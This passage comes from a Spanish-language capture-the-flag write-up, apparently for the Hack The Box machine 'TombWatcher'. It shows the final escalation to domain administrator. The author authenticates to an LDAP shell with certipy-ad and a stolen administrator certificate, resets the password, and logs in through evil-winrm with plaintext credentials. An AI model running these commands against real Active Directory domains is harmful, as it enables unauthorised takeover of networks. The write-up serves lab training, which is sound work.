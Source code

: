 <img width="1920" height="277" alt="image" src="https://github.com/user-attachments/assets/0036a662-93e8-43fc-ad80-a67013210282" />


Ya con el certificado `administrator.pfx` vamos autenticarnos para cambiar la password de administrator

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```

<img width="1920" height="821" alt="image" src="https://github.com/user-attachments/assets/e172adb8-38c5-4147-b22e-d8dfc946e97b" />

ahora solo tenemos que autenticarnos via `WinRrm`

```bash
evil-winrm -i DC01.tombwatcher.htb -u Administrator -p 'Darksblack1234'
```

<img width="1920" height="959" alt="image" src="https://github.com/user-attachments/assets/c2390a48-0de0-4aee-8cb2-98fda51a42ea" />

>>> Conseguimos acceso como administrador del sistema!!!!!!!










